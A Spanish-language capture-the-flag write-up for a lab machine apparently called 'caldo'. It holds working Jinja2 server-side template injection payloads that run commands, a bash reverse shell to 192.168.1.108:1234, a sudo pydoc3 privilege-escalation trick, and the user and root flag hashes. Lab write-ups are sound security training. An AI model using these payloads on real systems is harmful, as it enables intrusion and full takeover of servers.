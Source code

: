 nmap: 192.168.1.130

![image](https://github.com/user-attachments/assets/04153be9-dbfa-42ee-9f66-3fdf4d03ee92)

al entrar al puerto 80 no hay nada mas que un apache, así que ingresamos por el puerto 8089

![image](https://github.com/user-attachments/assets/a3aa1ef4-3c4b-431a-ab69-5d1d3cd2cd5e)


vemos que podemos colocar muchas cosas ahí, así que probé inyectando un XSS

![image](https://github.com/user-attachments/assets/bad02228-eb0e-4ffd-bb19-5f9b5282d3aa)

y funciona la inyección XSS 

ahora probaremos un ataque SSTI 
una explicación rápida y buena con ejemplos: https://book.hacktricks.wiki/en/pentesting-web/pocs-and-polygloths-cheatsheet/index.html?highlight=%7B%7B7*7%7D%7D#basic-tests-8

![image](https://github.com/user-attachments/assets/3e4deccc-01b6-4302-b423-94a88aa45544)

y funciona, porque nos devuelve el valor 

![image](https://github.com/user-attachments/assets/9550e161-fc82-441f-b8cd-08beb3b84dca)

de la misma pagina de explicacion encontre este comando

     {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

como se ve en el código podemos ver que que hay un 'id' o sea que al lanzarlo por el ejecutable que hay ahí nos debería mostrar usuarios y grupo. 

![image](https://github.com/user-attachments/assets/08efb840-176e-4bc5-a4a2-d857c32600f0)

al igual que whoami porque podemos ver que nos muestra el usuario caldo
![[caldo1.png]]

ahora vamos a lanzar una reverse y colocar el puerto en escucha

lanzamos:

     {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/192.168.1.108/1234 0>&1\'').read() }}


![[reverse.png]]

y estamos dentro y también de primero nos da la flag de usuario

![[user1.png]]

al hacer un sudo -l  vemos que a nivel de sudoers podemos ejecutar el binario pydoc3 para generar documentación a partir de módulos de Python.
y en un blog chino https://cloud.tencent.com.cn/developer/information/%E5%A6%82%E4%BD%95%E6%9F%A5%E7%9C%8Blinux%E4%B8%8A%E7%9A%84ftp que se tradujo a español encontré este comando

     sudo pydoc3 -b 8888

que si lo ejecutamos nos mandara aquí

![[the hackers labs/avanzado/caldo de avecren/ejecucion1.png]]

colocamos

     !/bin/sh


nos saldremos y haremos un bash -p

![[the hackers labs/avanzado/caldo de avecren/root.png]]

y seremos root! 





f3e431cd1129e9879e482fcb2cc151e8 user
44df858281024b69291f503f8921136c root
